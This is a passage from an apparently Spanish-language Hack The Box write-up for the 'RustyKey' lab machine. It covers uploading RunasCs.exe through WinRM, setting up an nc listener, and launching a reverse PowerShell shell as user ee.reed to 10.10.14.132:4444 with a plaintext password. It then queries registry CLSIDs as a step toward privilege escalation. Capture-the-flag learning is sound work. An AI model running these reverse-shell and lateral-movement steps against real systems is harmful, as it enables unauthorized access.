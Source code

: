 nos da error y no podemos llegar acceder via `winrm` con este usuario, pero aun queda una alternativa, usar `RunasCs.exe`

>>> Primero volvemos acceder via winrm como bb.morgan y cargamos el binario (recuerda cargar en la variable de entorno KRB5CCNAME el ticket del usuario bb.morgan para poder acceder via winrm)
```bash
upload /home/darks/Documents/htb/RustyKey/runas/RunasCs.exe
```
```bash
Info: Uploading /home/darks/Documents/htb/RustyKey/runas/RunasCs.exe to C:\Users\bb.morgan\RunasCs.exe
                                        
Data: 68948 bytes of 68948 bytes copied
```

nos colocamos en escucha desde nuestra maquina

```bash
nc -lnvp 4444
```

lanzamos la reverhsell con `RunasCs.exe`

```bash
.\RunasCs.exe ee.reed 'Testing123@' powershell -r 10.10.14.132:4444
```

y obtenemos la conexion en nuestra maquina como el usuario `ee.reed`

![image](https://github.com/user-attachments/assets/8c6927c8-8f3e-461a-a1d9-66f0d38ba59e)

ahora como este usuario pertenece al grupo `Support` y este grupo tiene privilegios para modificar claves de registro de extraccion/compresion, vamos a buscar en el registro de Windows todas las claves relacionadas con archivos rar o zip bajo las CLSIDs

```bash
reg query HKCR\CLSID /s /f "rar"
```
```bash
reg query HKCR\CLSID /s /f "rar"

HKEY_CLASSES_ROOT\CLSID\{031E4825-7B94-4dc3-B131-E946B44C8DD5}
    (Default)    REG_SZ    UsersLibraries

HKEY_CLASSES_ROOT\CLSID\{031E4825-7B94-4dc3-B131-E946B44C8DD5}\shell\restorelibraries

HKEY_CLASSES_ROOT\CLSID\{06290BD5-48AA-11D2-8432-006008C3FBFC}
    (Default)    REG_SZ    Object for constructing type libraries for scriptlets

HKEY_CLASSES_ROOT\CLSID\{09f209a1-d04d-4225-9333-076d72a7bb06}
    (Default)    REG_SZ    IPlayToReceiverAppRegistrar Factory

HKEY_CLASSES_ROOT\CLSID\{0af96ede-aebf-41ed-a1c8-cf7a685505b6}
    (Default)    REG_SZ    Library Folder Context Menu

HKEY_CLASSES_ROOT\CLSID\{0B2C35D2-C8BC-4470-BFC0-D6BB1235E5CE}
    (Default)    REG_SZ    Temporary Files Cleaner

HKEY_CLASSES_ROOT\CLSID\{14074e0b-7216-4862-96e6-53cada442a56}
    (Default)    REG_SZ    Library Icon Extract Extension

HKEY_CLASSES_ROOT\CLSID\{1D6322AD-AA85-4EF5-A828-86D71067D145}
    (Default)    REG_SZ    UIAnimationTransitionLibrary

HKEY_CLASSES_ROOT\CLSID\{204810b9-73b2-11d4-bf42-00b0d0118b56}
    (Default)    REG_SZ    UPnPRegistrar

HKEY_CLASSES_ROOT\CLSID\{2048EEE6-7FA2-11D0-9E6A-00A0C9138C29}
    (Default)    REG_SZ    Microsoft OLE DB Row Position Library
```